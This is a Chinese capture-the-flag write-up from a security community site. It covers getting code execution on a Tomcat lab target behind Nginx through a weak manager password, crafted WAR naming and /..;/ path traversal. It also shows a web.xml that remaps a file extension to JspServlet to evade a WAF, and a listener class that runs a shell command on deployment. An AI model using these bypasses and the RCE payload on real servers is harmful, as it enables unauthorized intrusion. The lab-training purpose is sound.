





# Tomcat文件上传基于Nginx绕过靶场全过程-先知社区

> **来源**: https://xz.aliyun.com/news/18247  
> **文章ID**: 18247

---

## 前言

昨天我们的师傅在群里发布了一道关于Tomcat的Web题，希望大家能贡献自己的思路，在这过场中大家积极参与，看到了很多解题的思路，我们师傅感觉非常不错，今天正好为了解答一些师傅们疑惑，在这里给大家普及一些关于Tomcat与Nginx相结合的资料供大家参考

Nginx似乎只代理/manager/\*，因为需要部署恶意代码至/manager/\*下，根据Tomcat官方文档介绍到，利用foo#bar.war可将代码部署至/foo/bar/，因此利用该特性可构造manager#app.war，将恶意代码部署至Nginx代理的/manager/\*下

## 正解

这里先拿到靶场地址:

https://web-10001-range.redcellsec.cn/

于是尝试经典Tomcat路径：/manager  
发现了经典Tomcat的icon图标



直接猜测弱口令tomcat/123456登录成功



这里准备我们的war包，网上有教程就不概述了，这里就是根据文章中的参考链接，特殊命名一下war包即可上传,因为靶场环境有waf当时不允许落地jsp，所以打的内存马



参考链接:

https://tomcat.apache.org/tomcat-5.5-doc/config/host.html#Automatic%20Application%20Deployment

这里可以看到官方的一些解释



下面还有来自lookeye师傅的两种解法

# 解法一：绕过nginx反向代理限制

## 路径穿越

经过测试不难发现，只有uri为/manager/\*的请求才会被传发给tomcat，而tomcat在规范化处理url时会将/..;/替换为/../但是nginx不会做特殊处理，所以就可以在tomcat侧实现路径穿越

```
GET /manager/..;/evil HTTP/1.1
Host: web-10001-range.redcellsec.cn
Cookie: sl-session=j34eLkV2Smj5IF6xc1kuaw==
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

这样就可以访问tomcat上的任意路径了，配合部署war包getshell

## war包绕过WAF

经过fuzz可以发现waf只拦截了上传表单中不能存在.jsp，我们可以利用web.xml配置将其他后缀文件交给JspServlet处理就可以绕过  
目录结构

```
evil-jsp
    - WEB-INF
        - web.xml
    - evil.x
```

web.xml配置

```
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
         http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         version="3.1">

    <servlet>
        <servlet-name>jsp</servlet-name>
        <servlet-class>org.apache.jasper.servlet.JspServlet</servlet-class>
        <init-param>
            <param-name>fork</param-name>
            <param-value>false</param-value>
        </init-param>
        <load-on-startup>3</load-on-startup>
    </servlet>
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.x</url-pattern>
    </servlet-mapping>
</web-app>
```

打包成war上传部署

```
GET /manager/..;/evil/evil.x HTTP/1.1
Host: web-10001-range.redcellsec.cn
Cookie: sl-session=j34eLkV2Smj5IF6xc1kuaw==
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```

或者/manager/;/../evil.x有一点像shiro鉴权绕过的方式

# 解法二：Listener初始化代码执行

前面提到，限制了只能访问/manager/\*，那么如果可以让war包在程序部署时自动执行一些代码也可以实现rce，这个时候就想到了Listener的contextInitialized方法和contextDestroyed分别在程序启动和停止时执行，后面有师傅说注册Valve也可以。  
目录结构

```
evil-listener
    - WEB-INF
        - classes
            - com
                - evil
                    - EvilContextListener.class
        - web.xml
```

EvilContextListener.class代码

```
package com.evil;  
  
import javax.servlet.ServletContextEvent;  
import javax.servlet.ServletContextListener;  
import javax.servlet.annotation.WebListener;  
import java.io.IOException;  
  
  
@WebListener  
public class EvilContextListener implements ServletContextListener {  
    @Override  
    public void contextInitialized(ServletContextEvent sce) throws IOException {  
        Runtime.getRuntime().exec("touch /tmp/pwned");  
    }  
  
    @Override  
    public void contextDestroyed(ServletContextEvent sce) {  
  
    }  
}
```

web.xml配置

```
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
         http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         version="3.1">
<listener>
        <listener-class>com.evil.EvilContextListener</listener-class>
</listener>
</web-app>
```

打包部署自动执行，靶场到此就结束啦



其实关于这个靶场还有更多解法，在日志中也看到很多师傅们在不断尝试多视角解题，希望大家能通过这次靶场挑战能学到更多知识，同时也促进了彼此之间的技术交流，我们也将不定期设置一些靶场挑战，欢迎师傅们积极挑战！如果有师傅想尝试复现可以联系我们的师傅重新开启靶场环境，欢迎参与

**​**

**免责声明**

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。红细胞安全实验室拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容， 不得以任何方式将其用于商业目的。

**文末福利**

团队官网：https://redcellsec.cn/，现在我们已经建立了红细胞安全实验室技术交流群，希望各位师傅能积极交流、一起学习，共同营造网络安全良好技术氛围，目前群聊大于200人无法再通过二维码加入交流群，想加入技术交流群的师傅可以通过公众号后台获取邀请链接，进入群聊后私信群主或者其他师傅加入技术交流群，后续会不定期在公众号上分享一些实战干货或者实用的工具以及资讯，希望能看到更多师傅们一起来交流行业前沿技术！
